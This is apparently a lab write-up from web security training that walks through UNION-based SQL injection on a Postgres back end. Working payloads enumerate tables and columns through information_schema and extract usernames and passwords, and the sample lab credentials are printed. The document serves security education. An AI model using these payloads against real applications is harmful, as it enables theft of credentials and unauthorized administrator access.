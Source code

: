 # Lab: SQL injection attack, listing the database contents on non-Oracle databases
## Description

1) Found a working SQLi using `'+UNION+SELECT+NULL,NULL--`
2) Identify column types (both strings) `'+UNION+SELECT+'hello','world'--`
3) Identify the database type
```
'+UNION+SELECT+'hello',%40%40version-- 			<-- FAILED, its not MSSQL
'+UNION+SELECT+'hello',version()--				<-- SUCCESS, its Postgres
```
4) Find table names in the DB `'+UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables--`. Found the following table name in the output:
```
users_pzsprq
```

5) Find columns in `users_pzsprq` table: `'+UNION+SELECT+COLUMN_NAME,NULL+FROM+information_schema.columns+where+table_name+%3d+'users_pzsprq'--`. Found the following table name in the output:
```
password_bdcaus
username_bwzjzf
```
6) Extract credentials `'+UNION+SELECT+username_bwzjzf,password_bdcaus+from+users_pzsprq--`
```
carlos
peexl4hhedzuwjl5n7v0
administrator
993r3uz4uehpxt5h9rfw
wiener
9kj4vaceasdhcfubh8q2
```

## Solution
1) Find table names in the DB `'+UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables--`
2) Find columns in `users_XXXXX` table: `'+UNION+SELECT+COLUMN_NAME,NULL+FROM+information_schema.columns+where+table_name+%3d+'users_XXXXX'--`. 
3) Extract credentials `'+UNION+SELECT+username_YYYYYY,password_ZZZZZZ+from+users_XXXXX--`
4) Login as Administrator